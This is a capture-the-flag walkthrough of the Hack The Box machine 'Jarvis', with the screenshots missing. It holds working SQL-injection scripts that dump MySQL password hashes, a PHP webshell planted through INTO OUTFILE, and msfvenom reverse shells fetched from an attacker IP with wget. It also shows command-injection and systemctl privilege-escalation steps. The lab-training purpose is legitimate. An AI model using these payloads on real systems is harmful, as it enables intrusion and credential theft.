







# [Jarvis](https://app.hackthebox.eu/machines/194)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.143 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.143
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.143
```

The TCP quick `nmap` scan returns the following:


Start the following web scanners for the website:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.143/ --maxtime=30s
gobuster dir -t 100 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.143/ &
```

Browse to the website manually `http://10.10.10.143/`:


The scan from `nikto` shows an interesting HTTP header:


Trying to search for exploits with this service and version does not return any results.

```bash
searchsploit ironwaf 2.0.3
```

The `gobuster` results show the following:


There are a few interesting URIs here. The `/phpmyadmin` shows the following when trying easy logins like:

- `admin/admin`
- `admin/password`


Okay, no luck here. Moving on... The other URLs from the output of `gobuster` can be found using a basic webpage content URL/email scanner. It takes a URL and recursively parses all other URLs found in HTML/JS/CSS looking for internal/external URLs and email addresses:

```python
import os
import re
import sys
import signal
import urllib
import requests
import subprocess

C_NORM='\033[0m'
C_BAD='\033[31m'
C_INFO='\033[36m'
C_GOOD='\033[32m'
C_WARN='\033[33m'

LOCAL_REGEX = r'(?:href|action|src) *= *[\"\'](?!http|ftp|https|mailto|://|//)(.*?)[\"\']'
EMAIL_REGEX = r'[a-zA-Z0-9._-]+@[a-zA-Z0-9._-]+\.[a-zA-Z0-9_-]+'
EXT_REGEX = r'(http|ftp|https)://([\w_-]+(?:(?:\.[\w_-]+)+))([\w.,@?^=%&:/~+#-]*[\w@?^=%&/~+#-])?'

def find_recursive(url, target_domain, int_urls, ext_urls, emails):
  try:
    r = requests.get(url, verify=False)
    if r.status_code != requests.codes.ok:
      print(f'[{C_WARN}!{C_NORM}] Bad HTTP status code {r.status_code} from --> {url} ...')
      return
    http = r.text
  except Exception as e:
    print(f'[{C_BAD}-{C_NORM}] Failed to connect to --> {url} ...')
    return
  print(f'[{C_INFO}*{C_NORM}] Parsing --> {url} ...')
  # find all full links
  for proto,domain,path in re.findall(EXT_REGEX, http):
    new_url = ''.join([proto,'://',domain,path])
    if (target_domain in domain) and (new_url not in int_urls):
      int_urls.add(new_url)
      find_recursive(new_url, target_domain, int_urls, ext_urls, emails)
    if (target_domain not in domain) and (new_url not in ext_urls):
      ext_urls.add(new_url)
  # find all local links
  for path in re.findall(LOCAL_REGEX, http):
    uri = urllib.parse.urlparse(url)
    new_url = f'{uri.scheme}://{uri.netloc.rstrip("/")}/{path.lstrip("/")}'
    if (target_domain in new_url) and (new_url not in int_urls):
      int_urls.add(new_url)
      find_recursive(new_url, target_domain, int_urls, ext_urls, emails)
    if (target_domain not in new_url) and (new_url not in ext_urls):
      ext_urls.add(new_url)
  # find all emails in internal links
  if target_domain in url:
    for email in re.findall(EMAIL_REGEX, http):
      if email not in emails:
        emails.add(email)

def display_results():
  print(f'[{C_GOOD}+{C_NORM}] DONE\n')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(emails)} Emails:')
  for e in sorted(list(emails)):
    print(f'\t{e}')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(int_urls)} Internal URLs:')
  for u in sorted(list(int_urls)):
    print(f'\t{u}')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(ext_urls)} External URLs:')
  for u in sorted(list(ext_urls)):
    print(f'\t{u}')

def signal_handler(signal, frame):
  print(f'[{C_WARN}!{C_NORM}] Received signal {signal}. Stopping ...')
  display_results()
  exit(signal)

if __name__ == '__main__':
  requests.packages.urllib3.disable_warnings()
  requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
  try:
    requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
  except AttributeError:
    # no pyopenssl support used / needed / available
    pass
  emails = set()
  int_urls = set()
  ext_urls = set()
  if len(sys.argv) != 3:
    print(f'Usage: python3 {sys.argv[0]} <target> <domain>')
    exit(1)
  signal.signal(signal.SIGINT, signal_handler)
  find_recursive(sys.argv[1], sys.argv[2], int_urls, ext_urls, emails)
  display_results()
```

This script is run as follows:


And displays the following interesting output:



There are a few new URLs added that `gobuster` didn't find. There seems to be a page at `/room.php?cod=X` where `X` is a number representing a room number. Trying a number that is not from the listed scan (like `http://10.10.10.143/room.php?cod=7`) returns a page with the following:


As apposed to the following for a valid number (using `http://10.10.10.143/room.php?cod=6`):


There may be an SQL injection here. To test, try and trick the webpage to display a valid result for an invalid room number. Assuming the SQL syntax in the backend looks something like this:

```sql
SELECT title,price,description FROM rooms WHERE ID=6
```

Then trying the following queries with the `cod` parameter of the URL should trigger the vulnerability:

- `http://10.10.10.143/room.php?cod=6%20and%201=2`
- `http://10.10.10.143/room.php?cod=6%20and%201=1`

They should result in the following SQL queries in the backend:

```sql
SELECT title,price,description FROM rooms WHERE ID=6 and 1=2 -- should return nothing
SELECT title,price,description FROM rooms WHERE ID=6 and 1=1 -- should return something
```

And that works! That is valid SQL injection. Next, get the number of columns in the query using `ORDER BY`. Starting at 1 and incrementing, shows that the number of columns is 7:

- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%201` returns something
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%202` returns something
- `...`
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%208` returns nothing

The underlying SQL query now looks more like the following with this injection:

- https://www.w3schools.com/sql/sql_orderby.asp

```sql
-- X is the column number to order results the by
SELECT c1,c2,c3,c4,c5,c6,c7 FROM rooms WHERE ID=6 ORDER BY X 
```

Knowing there are 8 columns, now make a `UNION` query to return user requested results:

- https://www.w3schools.com/sql/sql_ref_union.asp

```sql
0 UNION ALL SELECT 1,2,3,4,5,6,7 -- use for GET parameter cod in URL
```

This returns the following:


Nice! That means that columns 2, 3, 4 and 5 are returned directly into the HTML by looking at the source:


Column 7 is not shown and columns 1 & 6 are embedded into URLs in the HTML. Using this, make a request to see which user this query is running as (using column 4 since it is easily inserted into a `<p>` tag):

- Note: Assuming MariaDB backend since it is common: https://mariadb.com/kb/en/user/

```sql
0 UNION ALL SELECT 1,2,3,user(),5,6,7 
```

This returns the following:


Cool. So the user is `DBadmin@localhost`. Next replace column 4 in the SQL query with the following for basic host enumeration:

- https://mariadb.com/kb/en/server-system-variables/

```sql
0 UNION ALL SELECT 1,2,3,user(),5,6,7                    -- returns DBadmin@localhost
0 UNION ALL SELECT 1,2,3,@@version,5,6,7                 -- returns 10.1.37-MariaDB-0+deb9u1
0 UNION ALL SELECT 1,2,3,@@hostname,5,6,7                -- returns jarvis
0 UNION ALL SELECT 1,2,3,@@version_compile_os,5,6,7      -- returns debian-linux-gnu
0 UNION ALL SELECT 1,2,3,@@version_compile_machine,5,6,7 -- returns x86_64
```

Okay so a little more is known about the backend target. Next enumerate all tables in the database manually:

- https://www.w3schools.com/php/php_mysql_select_limit.asp
- https://www.w3schools.com/sql/func_mysql_concat.asp

```sql
-- here column 4 is replaced with a query to databse tables
-- CONCAT is used to prepend a unique string 'bubba@' to the output
-- since only one result can be returned, the LIMIT/OFFSET commands are used
-- in OFFSET, the X value starts at 0 and is incrimented for each request
0 UNION ALL 
  SELECT 
    1,2,3,
    CONCAT('bubba@',(SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET X)),
    5,6,7
```

This can be done in an automated fashion with Python by using `CONCAT` in SQL to append a unique tag to output and then searching for it on the HTML returned:

```python
import re
import requests

REGEX = r'<p>bubba-(.*)</p>'
URL = 'http://10.10.10.143/room.php'
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET {0})),5,6,7"

i = 0
s = requests.session()
while True:
  r = s.get(URL, params={'cod': SQL.format(i)})
  val = re.findall(REGEX, r.text)
  if not val:
    break
  print(val[0])
  i = i + 1
```

This script returns a long list of tables. From the output, the `user` table is interesting since it holds all the mysql password hashes and permissions. Modify the previous script to use the following SQL query to enumerate the column names of the table `user`:

- https://mariadb.com/kb/en/mysqluser-table/
- https://book.hacktricks.xyz/pentesting/pentesting-mysql

```python
# here, column_name is selected from 'users' until there are no more columns
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT column_name FROM information_schema.columns WHERE table_name='user' LIMIT 1 OFFSET {0})),5,6,7"
```

The script now outputs the same column list from https://mariadb.com/kb/en/mysqluser-table/. Taking this list of column names, it is possible to enuerate this table with the following Python for specific important columns. The Python assumes that the `user` table is under the default database name of `mysql`:

```python
import re
import requests

COLUMNS = [
  'Host',
  'User',
  'Password',
  'Select_priv',
  'Insert_priv',
  'Update_priv',
  'Delete_priv',
  'Create_priv',
  'Drop_priv',
  'Reload_priv',
  'Shutdown_priv',
  'Process_priv',
  'File_priv',
  'Grant_priv',
  'References_priv',
  'Index_priv',
  'Alter_priv',
  'Show_db_priv',
  'Super_priv',
  'Create_tmp_table_priv',
  'Lock_tables_priv',
  'Execute_priv',
  'Repl_slave_priv',
  'Repl_client_priv',
  'Create_view_priv',
  'Show_view_priv',
  'Create_routine_priv',
  'Alter_routine_priv',
  'Create_user_priv',
  'Event_priv',
  'Trigger_priv',
  'Create_tablespace_priv',
  'authentication_string',
]

REGEX = r'<p>bubba-(.*)</p>'
URL = 'http://10.10.10.143/room.php'
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT {0} FROM mysql.user LIMIT 1 OFFSET {1})),5,6,7"

s = requests.session()
# loop through each column
for col in COLUMNS:
  # get all rows for that column
  i = 0
  print(col, end=': ')
  while True:
    r = s.get(URL, params={'cod': SQL.format(col, i)})
    val = re.findall(REGEX, r.text)
    if not val:
      break
    print(val[0], end=', ')
    i = i + 1
  print('')
```

This script returns the following:


It seems like this user has the `File_priv` set. This enables the `DBadmin` user to read and write files to the system. With this, it is possible to try and get a simple webshell using the following:

```php
<?php if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  echo 'BUBBA-START';
  executeCommand($cmd);
  echo 'BUBBA-END';
  die();
}
function executeCommand(string $command) {
  if (class_exists('ReflectionFunction')) {
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    ob_start();
    passthru($command, $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    system($command);
  }
}?>
```

Assuming the SQL process has valid permissions to write to the default web directory `/var/www/html/` the following Python script can be used:

```python
import re
import string
import random
import binascii
import requests

REGEX = r'BUBBA-START(.*)BUBBA-END'
URL = 'http://10.10.10.143/'
SQL = "0 UNION ALL SELECT 1,2,3,{0},5,6,7 INTO OUTFILE '/var/www/html/{1}'"
PHP = """<?php if (isset($_REQUEST['c'])) {
  echo 'BUBBA-START';
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  }
  echo 'BUBBA-END';
}?>"""

# make a random 20 character webshell name since OUTFILE cannot overwrite existing files
filename = ''.join(random.choice(string.ascii_lowercase) for i in range(20)) + '.php'
print(f'[*] webshell name: {filename}')
# convert webshell into hex
# NOTE: removing newlines since OUTFILE does not handle them well...
webshell_raw = '0x' + binascii.hexlify(PHP.replace('\n','').encode()).decode()
# upload webshell
print(f'[*] SQL query: {SQL.format(webshell_raw, filename)}')
requests.get(URL + 'room.php', params={'cod':SQL.format(webshell_raw, filename)})
# test shell
print(f'[*] testing shell...')
r = requests.get(URL + filename, params={'c':'whoami'})
val = re.findall(REGEX, r.text, re.S)
if not val:
  print('[-] failed!')
  exit()
print('[+] success!')
while True:
  c = input('> ')
  r = requests.get(URL + filename, params={'c':c})
  val = re.findall(REGEX, r.text, re.S)
  if not val:
    print('[!] no command output?')
  print(val[0])
```

Running this works! That is a remote webshell:



This web shell can now be used to get a dedicated shell on the target:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 7777
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# send command to target through Python webshell script:
wget http://10.10.14.23:7777/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &
```

And that gets the dedicated shell, but not `user.txt`? Time to enumerate the host...



Looking at the sudo permissions of the current `www-data` user, an interesting value is seen:

```bash
sudo -l
```



This means the `www-data` user can run the script `/var/www/Admin-Utilities/simpler.py` as the user `pepper` without a password. Looking at the code for the `/var/www/Admin-Utilities/simpler.py` script shows an interesting function:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Interestingly, the script is missing `$()` in the list `forbidden`. This means, it is possible to have Bash execute a command as long as it does not use the characters in the list `forbidden`. Generate another reverse shell and use it to get a shell as `pepper`:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=4040 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.pepper.elf
# on kali, host the payload
python3 -m http.server 7777
# listen for callback
nc -nvlp 4040
# on target, download new shell
wget http://10.10.14.23:7777/bubba.pepper.elf -P /tmp/ && chmod +x /tmp/bubba.pepper.elf
# use sudo to execute shell as pepper
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
$(/tmp/bubba.pepper.elf)
```


This returns a shell as `pepper`, which gives `user.txt`:



Looking for SUID binaries shows something interesting:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```



`systemctl` is not a common SUID binary. It also has an entry in GTFOBINS:

- https://gtfobins.github.io/gtfobins/systemctl/

It can be abused to elevate privileges by creating a service that is installed and run as root. Generate another reverse shell payload for root, upload it, and install it as a service:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=5050 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.root.elf
# on kali, host the payload
python3 -m http.server 7777
# listen for callback
nc -nvlp 5050
# on target, download root payload
cd ~ # NOTE: using tmpfs does not work well with systemctl ... 
wget http://10.10.14.23:7777/bubba.root.elf && chmod +x bubba.root.elf
# on target, create the service
SERVICE_FILE=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 20 ; echo '').service
cat << 'EOF' >> $SERVICE_FILE
[Service]
Type=simple
User=root
ExecStart=/home/pepper/bubba.root.elf
[Install]
WantedBy=multi-user.target
EOF
# on target, start the service
/bin/systemctl enable /home/pepper/$SERVICE_FILE
/bin/systemctl start $SERVICE_FILE
```

And that is `root.txt`:



